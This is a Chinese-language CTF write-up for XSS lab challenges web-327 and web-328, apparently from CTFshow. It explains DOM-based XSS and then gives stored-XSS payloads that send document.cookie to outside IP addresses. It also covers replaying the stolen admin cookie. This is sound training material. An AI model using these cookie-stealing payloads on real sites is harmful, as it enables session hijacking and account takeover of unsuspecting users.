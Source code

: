 DOM中有很多对象，其中一些对象可以被用户所操纵，如url，location等。客户端的脚本程序可以通过DOM来动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而是从客户端取得DOM中的数据后并在本地执行，因此仅从服务器端是没有办法防御DOM型XSS漏洞的，如若DOM中的数据没有经过严格的验证，便会产生基于DOM的XSS漏洞。

基于DOM的XSS是反射的特例，其中JavaScript隐藏在URL中，并在其呈现时由页面中的JavaScript取出，而不是在提供服务时嵌入到页面中。这可以使其比其他攻击更隐蔽，并且监控页面正文的WAF或其他防护检测不出恶意内容。

（2）攻击方式
  用户请求一个经过专门设计的URL，它由攻击者提交，而且其中包含xss代码。服务器的响应不会以任何的形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM对象就会处理xss代码，导致存在xss漏洞


### web-327

从这题开始就是存储型XSS，首先是poster必须是admin才能发送成功，其次就是xss的出发点一个是sender和content都可以

```
<script> onload=location.href="http://47.98.193.145/1111/127.php?cookie="+document.cookie</script>

```

![image-20250423204012730](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232040763.png)

![image-20250423204022238](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232040262.png)



### web-328

这里在注册时，用户名和密码都用payload（头这里没用了。可能被过滤了）

打payload前先用vps监听9023端口

```
<script>window.open('http://120.46.41.173:9023/'+document.cookie)</script> 
```

![image-20250423204412630](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232044662.png)

这个应该是管理员的cookie，抓包伪造一下cookie

![image-20250423204758098](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232047133.png)

然后放包，一个一个放，速度要慢。放一个包改一次cookie

![image-20250423204843142](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232048170.png)

```
别人的wp：
TIP：关于异步(加深了解可写项目或看项目)，页面框架获取和数据拉取填充是异步进行的，不在同一个数据包中，如果通过BURP完成此题，请注意数据包是否为获取指定数据。

另外一种思路：
将页面指定部分直接发送到XSS平台
经分析，flag大概率在document.body.innerText，且数据量不大
```



### web-329
